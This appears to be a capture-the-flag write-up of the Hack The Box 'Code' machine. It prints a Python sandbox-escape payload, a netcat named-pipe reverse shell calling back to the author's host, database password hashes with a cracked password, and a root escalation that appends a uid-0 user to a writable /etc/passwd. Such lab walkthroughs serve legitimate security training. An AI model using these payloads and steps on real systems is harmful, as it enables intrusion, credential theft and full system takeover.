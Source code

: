 ```yaml
---
title: Hackthebox code machine write up 
categories: PENTEST 
image: null
published: true
---
```



H3ll0 pwn3rs !!!


Here is a writeup for Hackthebox `code machine`

![recon](/assets/hackthebox/code.png)

Hackthebox `Code box `  is an easy linux machine.

We exploit the machine as follow:
- Exploit RCE in python sanbox
- Make reverse shell
- Found databse file
- retrive Martin password in md5 hash
- crack the password with crackstation
- connect to ssh with martin credential
- use  linpeas to enum
- /etc/passwd is writable by martin
- create new-user root user
- switch to new-user and get access to root


# Nmap scan
```
sudo nmap -A -T4 --min-rate 1000 10.10.11.62                                                                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-21 22:29 WAT                                                             
Nmap scan report for 10.10.11.62                                                                                               
Host is up (0.76s latency).                                                                                                    
Not shown: 998 closed tcp ports (reset)                                                                                        
PORT     STATE SERVICE VERSION                                                                                                 
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)                                           
| ssh-hostkey:                                                                                                                 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)                                                                 
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)                                                                |_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)                                                              
5000/tcp open  http    Gunicorn 20.0.4                                                                                         
|_http-title: Python Code Editor                                                                                               
|_http-server-header: gunicorn/20.0.4                                                                                          
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).                            
TCP/IP fingerprint:

```

### Found two open port 22 for ssh and 5000 for  http 


When we navigate to http://10.10.11.62:5000/, we found web page that let you run python code.
I try injection in login and singup form by not success.
After some try and error i decide to focus on python code execution feature.
The idea here is to bypass sandbox and make code  code execution.
you can try to play with it to understand it better.
After spend some time, i knew that we deal with python sanbox, some keywork are blacklisted.
keyword like those:  ` system, exec, builtins, os , popen, read,...`. 

How to bypass this sandbox??? 
Below are  the steps:
- found a way to access buitins: print.__self__
- from buitins, access to __import__ to import os: `.__dict__.get('imp' +ort')('o'+'s')
- from os, call system to exec code on the remote server: .__getattribute__("sys" +"tem")
- exec your command: ("command")

The payload :

```python
print.__self__.__dict__.get('__imp' +'ort__')('o'+'s').__getattribute__("sys"+"tem")("command")"
```


I run nc in listen mode on my local machine
``nc -lvp 4444``

and send this payload:
```python3
print.__self__.__dict__.get('__imp' +'ort__')('o'+'s').__getattribute__("sys"+"tem")("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.79 4444 >/tmp/f")

```


# Bouummmm ! get reverse shell 

![recon](/assets/hackthebox/get_reverse_shell.png)

```bash
$ whoami
app-production
$ pwd
/home/app-production/app
$ ls ..
app
linpeas.sh
user.txt
$ cat user.txt
cat: user.txt: No such file or directory
$ cat ../user.txt
809b23efc5263f3987xxxxxxxxxxxxxxxxx
$ id
uid=1001(app-production) gid=1001(app-production) groups=1001(app-production)
$ ls /home
app-production
martin
$ 
```

We have martin user on the machine.
i read app.py and found some credential on it. 
I also noticed that the app use database.db sqlite for to store users info and code.
- Copy database.db into static directory
- download it by navigate to http://10.10.11.62:5000/static/database.db
- use `sqlite3 ` to retrive martin password from database.
```
sqlite> .tables
code  user
sqlite> select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|gamer|7f99bef877271bf7dd4aee74c0629e32
sqlite> select * from code;
1|1|print("Functionality test")|Test
sqlite> 
```

martin md5 password is 3de6f30c4a09c27fc71932bfc68474be which is egal to `nafeelswordsmaster`


Now we can use that credential (martin:nafeelswordsmaster) to access to ssh:
```bash
ssh martin@10.10.11.62
```bash
ssh martin@10.10.11.62                                                   
martin@10.10.11.62's password:                                                                 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-208-generic x86_64)                                                                                                                            
                                                                               
 * Documentation:  https://help.ubuntu.com                                     
 * Management:     https://landscape.canonical.com                                             
 * Support:        https://ubuntu.com/pro                                                      
                                                                                                                                                                                                                   
 System information as of Tue 22 Apr 2025 09:01:17 AM UTC                                      
                                                                               
  System load:           0.0                                                                   
  Usage of /:            64.6% of 5.33GB                                                                                                                                                                           
  Memory usage:          20%                                                                                                                                                                                       
  Swap usage:            0%                                                                              
  Processes:             234                                                   
  Users logged in:       0                                                                                                              
  IPv4 address for eth0: 10.10.11.62                                
  IPv6 address for eth0: dead:beef::250:56ff:feb0:9a92                         
                                                                    
                                                                                                                                                              
Expanded Security Maintenance for Applications is not enabled.      
                                                                    
0 updates can be applied immediately.                               
                                                                                                                                                              
Enable ESM Apps to receive additional future security updates.                                                                                                
See https://ubuntu.com/esm or run: sudo pro status                             

                                                                                                                                                              
The list of available updates is more than a week old.                         
To check for new updates run: sudo apt update                                                  
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings                                                                         
                                                                               
                                                                               
                                                                               
The programs included with the Ubuntu system are free software;                                                                                                                               
the exact distribution terms for each program are described in the                                                                                                                            
individual files in /usr/share/doc/*/copyright.                                                

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by                                                                                                                          
applicable law.                                                                                

Last login: Tue Apr 22 09:01:21 2025 from 10.10.16.79                                          
martin@code:~$ whoami                                                                          
martin                                                                                         
martin@code:~$ id                                                                              
uid=1000(martin) gid=1000(martin) groups=1000(martin)                                          
martin@code:~$
```


# Time to priveEsc

I use linpeas.sh to enumerate
```
ls -al /etc/passwd
```
#### /etc/passwd is writable
so we can add new-user with root access
 - Generate new user password:
 ` openssl passwd -1 -salt ignite pass123`
```bash
echo 'new-user:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash' >> /etc/passwd
su new-user
```

![recon](/assets/hackthebox/root.png)

# And we pwn the box

![recon](/assets/hackthebox/code_pwn.png)
